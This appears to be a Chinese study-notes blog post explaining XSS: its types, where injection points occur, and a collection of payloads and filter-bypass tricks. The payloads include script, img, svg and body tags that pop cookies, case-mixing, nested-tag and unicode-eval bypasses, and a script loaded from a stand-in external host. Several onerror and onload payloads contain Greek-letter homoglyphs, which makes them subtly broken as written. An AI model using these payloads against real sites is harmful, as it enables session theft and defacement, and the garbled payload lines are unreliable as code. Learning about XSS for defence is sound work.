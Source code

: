 ```yaml
---
title: 随记—什么是 XSS
date: 2021-03-30
author: LM
tags: ["随记"]
---
```


> 参考原文：[ XSS(跨站脚本攻击)详解  @615 ](https://www.cnblogs.com/wuqun/p/12484816.html)

## 1.简单介绍

HTML 注入与 XSS 攻击简单来说就是当用户在输入框输入内容时，后台对输入内容不做处理就直接添加入页面。此时，**用户可以刻意填写 HTML、JavaScript 脚本来作为文本输入**，这样这个页面就会出现一些用户加入的东西了。比如用户输入以下内容：

```
<a href=http://www.baidu.com>Click Me</a>
```

当后台将该内容直接展示时，就会在前台展示出一个跳转至百度的链接。因此网站需要对用户的输入进行过滤，以避免该问题的出现。

为了避免这些问题，网站通常都会屏蔽 script 标签的输入，但这并不严谨，用户还可以利用类似于以下的语句来实现注入。

```
<img src=1 οnerrοr=alert(1)/>
<scr<script>ipt>
```

因此，相比起过滤 script 标签，更建议过滤 `<, >, &`等符号。

## 2.XSS

跨站脚本攻击 XSS ( Cross Site Scripting )，为了不和层叠样式表 ( Cascading Style Sheets，CSS ) 的缩写混淆，所以将跨站脚本攻击缩写为 XSS。恶意攻击者往往会在 Web 页面里插入恶意 JavaScript 代码，当用户浏览该页面时，嵌入 Web 里面的 JavaScript 代码会被执行，从而达到恶意攻击用户的目的。

XSS 攻击主要分为以下三种

- 存储型 XSS：持久化的攻击。如果恶意攻击者在个人信息或发表文章等地方，插入代码，后端又没有过滤或过滤不严，那么这些代码就会被储存到服务器中，其他任何用户访问该页面时都会触发代码执行。
- 反射型 XSS：非持久化的攻击。需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。
- DOM 型 XSS：不经过后端的攻击。DOM-XSS 漏洞是基于文档对象模型 ( Document Objeet Model，DOM ) 的一种漏洞，DOM-XSS 是通过 URL 传入参数去控制触发的。可能触发 DOM 型 XSS 的属性有：document.referer，window.name，location，innerHTML，documen.write。具体操作是在 URL 中传入参数的值，然后客户端页面通过 JavaScript 脚本利用 DOM 的方法获得 URL 中参数的值，再通过 DOM 方法进行赋值或其他操作。

## 3.XSS 的攻击载荷

### script 标签

```
<script>alert("hack")</script>   # 弹出 hack
<script>alert(/hack/)</script>   # 弹出 hack
<script>alert(1)</script>        # 弹出 1，对于数字可以不用引号
<script>alert(document.cookie)</script>      # 弹出 cookie
<script src=http://xxx.com/xss.js></script>  # 引用外部的 xss
```

### svg 标签

```
<svg onload="alert(1)">
<svg onload="alert(1)"/>
```

### img 标签

```
<img  src=1  οnerrοr=alert("hack")>
<img  src=1  οnerrοr=alert(document.cookie)>  # 弹出cookie
```

### body 标签

```
<body οnlοad=alert(1)>
<body οnpageshοw=alert(1)>
```

### video 标签

```
<video οnlοadstart=alert(1) src="/media/hack-the-planet.mp4" />
```

### style 标签

```
<style οnlοad=alert(1)></style>
```

## 4.XSS 漏洞的挖掘 

尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

## 5.XSS 的简单过滤和绕过

### a.区分大小写过滤标签

可以使用大小写绕过

```
<scripT>alert('hack')</scripT>
<sCript>alert("hey!")</scRipt>
```

### b.不区分大小写过滤标签

可以使用嵌套的 script 标签绕过

```
<scr<script>ipt>alert('hack')</scr</script>ipt>
```

### c.不区分大小写，过滤之间的所有内容

可以通过 img、body 等标签的 onerror 事件或者 iframe 等标签的 src 注入恶意的 JavaScript 代码。onerror 事件是专门针对 js 出错的，标签闭合性被破坏会触发这个事件。

```
<img src=1 οnerrοr=alert('hack')>
```

### d.编码脚本代码绕过关键字过滤

有的时候，服务器往往会对代码中的关键字（ 如 alert ）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入。我们可以用 eval() 将编码过的语句解码后再执行。例如：`alert(1) = eval(\u0061\u006c\u0065\u0072\u0074(1))`

```
<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>
```

### e.主动闭合标签实现注入代码

 有些注入点出现在链接或属性中，此时可以使用`"`主动的闭合标签，实现代码的注入

```
";alert("I am coming again~");"
```

